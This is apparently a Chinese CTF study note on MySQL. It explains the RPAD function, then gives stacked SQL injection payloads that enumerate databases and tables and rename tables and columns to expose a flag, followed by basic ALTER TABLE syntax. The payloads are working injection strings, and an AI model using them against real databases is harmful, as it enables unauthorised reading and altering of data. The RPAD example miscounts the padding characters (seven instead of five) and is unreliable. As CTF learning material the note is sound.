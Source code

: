 RPAD函数是MySQL中的一个字符串函数，用于将一个字符串填充到指定的长度。RPAD函数接受三个参数：

- 第一个参数是要填充的字符串。
- 第二个参数是指定字符串的总长度。
- 第三个参数是指定用于填充字符串的字符。

例如，RPAD('hello', 10, '-')的结果将会是hello-----，其中字符串'hello'被填充了7个短横线字符（'-'），以达到总长度为10。

## 

## 堆叠注入

### 堆叠注入下的简单查询

```python
0'; show databases; #
0'; show tables; #
1'; show columns from words; #
0'; show columns from `1919810931114514 `; #
```

### 改表

参考https://blog.csdn.net/qq_44657899/article/details/103239145

1，通过 rename 先把 words 表改名为其他的表名。

2，把 1919810931114514 表的名字改为 words 。

3 ，给新 words 表添加新的列名 id 。

4，将 flag 改名为 data 。

```python
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364336071-d88c6b66-7c8e-44fa-89f4-1dedce74f2f4.png#id=Fa7k9&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

一些用于改表的基础知识

- **not null**- 指示某列不能存储 NULL 值。

```
alter table persons modify age int not null;//设置 not null 约束 。
alter table person modify age int null;//取消 null 约束。
```

- **primary key** - NOT NULL 和 UNIQUE 的结合。指定主键，确保某列（或多个列的结合）有唯一标识，每个表有且只有一个主键。

```
alter table persons add age primary key (id)
```

- **unique** -保证某列的每行必须有唯一的值。(注：可以有多个 UNIQUE 约束，只能有一个 PRIMARY KEY 约束。 )

```
alter table person add unique (id);//增加unique约束。
```

